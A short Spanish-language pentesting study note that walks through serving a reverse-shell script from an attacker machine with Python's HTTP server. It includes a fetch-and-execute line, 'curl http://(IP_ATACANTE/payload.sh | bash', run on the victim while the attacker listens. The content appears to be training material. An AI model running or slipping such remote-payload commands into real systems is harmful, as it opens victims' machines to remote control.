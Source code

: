 - Vamos a crear una pagina web usando Python para traspasarnos archivos de la maquina victima  a la atacante.


- Vamos a crear un `payload.sh` con `nano`.
- Vamos a escribir una reverse shell.

![](../Imagenes/Pasted%20image%2020241211185224.png)

==Se usa .sh (Script de shell) porque son ampliamente compatibles con sistemas Unix y Linux==.
- Guardamos.
- Ahora, como podemos compartir este archivo con la maquina victima?
- Usamos el comando:
```
python3 -m http.server 80
```
- Esto levanta una pagina por el puerto 80 que nos permitirá ingresar y descargar lo que subamos a esta pagina.
![](../Imagenes/Pasted%20image%2020241211185936.png)
- Ingresamos la IP en el buscador de internet de la maquina victima y ya estaríamos viendo el archivo que creamos.
![](../Imagenes/Pasted%20image%2020241211194226.png)
- Lo podemos descargar.
- También tenemos otra forma de como ejecutarlo usando la terminal de la maquina victima, y es con el siguiente comando:
```
curl http://(IP_ATACANTE/payload.sh | bash
```
- Ponemos la IP de la maquina atacante seguido del nombre del archivo.
- Nos mantenemos en escucha desde la maquina atacante y ejecutamos el comando desde la maquina victima.
